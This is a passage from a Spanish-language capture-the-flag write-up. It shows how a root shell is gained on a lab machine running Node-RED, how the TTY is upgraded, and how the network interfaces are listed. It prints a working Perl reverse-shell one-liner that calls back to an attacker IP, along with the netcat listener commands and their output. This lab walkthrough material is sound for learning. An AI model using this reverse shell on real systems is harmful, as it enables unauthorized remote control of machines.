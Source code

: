 # Ganando Acceso al Node-RED
Nos ponemos a la escucha ya directamente con el comando `nc -vlnp 443` preparados para activar el boton de `DEPLOY` en el `NODE-RED` (Boton en la parte superior Derecha)
```bash
# nc -vlnp 443                                                                                                                                                                                                1 ⚙
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.94] 36216
whoami
root
```
Procedemos a enumerar a ver si la maquina tiene perl para lanzarnos una `Reverse_shell` en condiciones ya que vemos que a esta no se le puede hacer un tratamiento de la `tty`
```bash 
[object Object]which perl
/usr/bin/perl
```
Vemos que efectivamente dispone de `perl` asique procedemos a enviarnos otra `Reverse_shell`:
```bash
perl -e 'use Socket;$i="10.10.14.12";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```
La Recibimos: 
```bash
# nc -nlvp 443         
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.94] 36230
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# script /dev/null -c bash
root@nodered:/node-red# ^Z
zsh: suspended  nc -nlvp 443
                                                    
# stty raw -echo; fg                                                                                                                                                                                    148 ⨯ 1 ⚙
[1]  + continued  nc -nlvp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm

root@nodered:/node-red# export TERM=xterm
root@nodered:/node-red# export SHELL=bash
root@nodered:/node-red# stty rows 50 columns 212
```

Listamos las `Interfaces de Red Disponibles`
```bash
root@nodered:/node-red# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
7: eth0@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
17: eth1@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
```